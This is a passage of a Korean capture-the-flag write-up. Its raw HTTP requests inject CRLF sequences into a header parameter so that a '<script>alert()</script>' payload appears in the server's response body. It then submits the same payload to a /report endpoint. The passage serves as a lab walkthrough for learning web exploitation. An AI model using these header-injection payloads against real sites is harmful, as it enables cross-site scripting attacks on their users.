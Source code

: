 |

### 2-4. 본문에 내용 추가

```html
POST / HTTP/1.1
Host: war.knock-on.org:10013
Accept-Language: ko-KR,ko;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/128.0.6613.120 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Content-Length: 46
Content-Type: application/x-www-form-urlencoded

header=header1: value1

<script>alert()</script>
header2&value=value2
```

```wasm
HTTP/1.1 200 OK
Server: Werkzeug/3.0.3 Python/3.10.12
Date: Mon, 16 Sep 2024 12:20:38 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 51
header1: value1

<script>alert()</script>
header2: value2
Connection: close

I't is very good day to walk out. Power thourgh!!!!
```

`\r\n\r\n` 과 두 번째 헤더 사이에 본문에 추가할 내용 추가

|

### 2-5. /report에 요청

```html
POST /report HTTP/1.1
Host: war.knock-on.org:10013
Accept-Language: ko-KR,ko;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/128.0.6613.120 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Content-Length: 72
Content-Type: application/x-www-form-urlencoded

header=header1: value1

<script>alert()</script>
header2&value=value2
```
